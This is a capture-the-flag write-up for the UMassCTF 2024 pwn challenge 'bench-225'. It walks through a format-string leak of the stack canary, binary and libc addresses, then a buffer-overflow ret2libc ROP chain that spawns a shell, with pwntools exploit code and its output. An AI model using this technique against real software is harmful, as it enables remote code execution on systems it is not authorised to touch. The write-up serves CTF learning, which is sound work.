 ```yaml
---
layout: post
title: UMassCTF 2024
author: 12th
categories: [Jeopardy]
tags: [ctf,pwn]
---
```


# pwn/bench-225

```
chall disc [add later]

```

In this challenge we are given a compiled 64bit binary.

running checksec shows the we have full protections:

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Running the binary we see it gives us 5 options, Add 10s, Add 25s Add 45s, Bench and Remove Plate.

I'll start with opening it up with Ghidra, In main I saw an extra option, option 6 for Motivational Quote. 

The "motivation" function has two vulnerabilities.

![](https://i.imgur.com/B7QO6rb.png)


The first being fgets on line 17 is reading in 1000 bytes into local_18 which is set as only 8. This gives us an overflow.

The 2nd is line 20 when the program uses printf without any format specifer, giving us a format strings. This will let us leak important data such as the stack canary, libc and elf addresses. We can use all of those to ret2libc and get a shell.

Lets first get into this function.

```c    
if ((stam < 0x32) && (DAT_00107092 <= g_Barbell)) {
      puts("6. Motivational Quote");
    }
```

So for this option to appear we need low stamina, and the "barbell" to be above another value.

To achieve this I would just get the lbs above 200, and drain my stamina.

![](https://i.imgur.com/PVvPeUy.png)


As expected, i can use the format strings to leak data here. 

For this part I like to use a fuzz script to give me a bunch of leaks and i'll go and check the useful ones myself after.

```python
from pwn import *

for i in range(1,20):
        io = process('./bench-225',level='error')
        for x in range(5):
            io.sendline(b'3')

        for x in range(6):
            io.sendline(b'4')
            
        payload = f"%{i}$p"
        io.sendline(b'6')
        io.sendlineafter(b'quote:',payload)
        io.recvuntil(b'Quote:')
        print(io.recvline(),i)
        io.close()
```

This will print the leak, and the offset that 

```
❯ python3 fuzz.py
b' "0x7fff4364ba80\n' 1
b' "(nil)\n' 2
b' "0x7f8f1f314887\n' 3
b' "0x8\n' 4
b' "(nil)\n' 5
b' "(nil)\n' 6
b' "0xa016da080\n' 7
b' "0xa70243825\n' 8
b' "0xa93ade3f14484a00\n' 9
b' "0x7ffea69d6f50\n' 10
b' "0x55f76fde06a1\n' 11
b' "0x600000000\n' 12
b' "0x15549807e3813f00\n' 13
b' "0x1\n' 14
b' "0x7f111b829d90\n' 15
b' "(nil)\n' 16
b' "0x55a8003b935c\n' 17
b' "0x100000000\n' 18
b' "0x7fff6adc7928\n' 19
```

The ones that look intresting are, 9 (canary) 13(also could be canary), 15 and 11


Using GDB ill leak those addresses and check what they are. Using the Canary command inside GDB I can confirm:
13 is the canary 
11 is main+837
15 is _libc_start_call_main+128


Lets script this part together. I start by getting the option 6 to show up.

```python=
for x in range(5):
    io.sendline(b'3')

for x in range(6):
    io.sendline(b'4')
```


get the 3 leaks:
```python=
payload = b"%13$p"
io.sendline(b'6')
io.sendlineafter(b'quote:',payload)
io.recvuntil(b'Quote:')
canary = int(io.recvline().strip()[1:].decode(),16)
log.info(hex(canary))

payload = b"%11$p"
io.sendline(b'6')
io.sendlineafter(b'quote:',payload)
io.recvuntil(b'Quote:')
main_leak = int(io.recvline().strip()[1:].decode(),16)
log.info(hex(main_leak))

payload = b"%15$p"
io.sendline(b'6')
io.sendlineafter(b'quote:',payload)
io.recvuntil(b'Quote:')
libc_leak = int(io.recvline().strip()[1:].decode(),16)
log.info(hex(libc_leak))
```

Calculate the base addresses:


```python=
main_base = main_leak - elf.symbols.main - 837
elf.address = main_base
log.info(hex(main_base))

libc_base = libc_leak - 0x29d90
log.info(hex(libc_base))
libc.address = libc_base
```

and now I have all I need for a ret2libc:

We have a stack canary and the buffer was only 8 bytes, So we start with 8 bytes of "junk" followed by the stack canary, I use 8 \x00 to padding and the rest is a normal "ret2libc" loading binsh into pop rdi so we can run system(/bin/sh) on the remote server.


```python=
payload = b'A'*8
payload += p64(canary)
payload += b'\x00' *8
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(next(libc.search(b"/bin/sh")))
payload += p64(libc.symbols.system)


io.sendline(b'6')
io.sendline(payload)

io.interactive()
```

Unlike most CTFs, the flag was not in the directory the shell spawned me into, 

So I ran `find / 2>/dev/null | grep flag.txt`

and I see the flag is in /home/tmp_bench_225/flag.txt

```
$ cat /home/tmp_bench_225/flag.txt
UMASS{wh0$e_g0nn4_c4rry_t3h_r0pz_&nd_d4_ch41nz?}
```


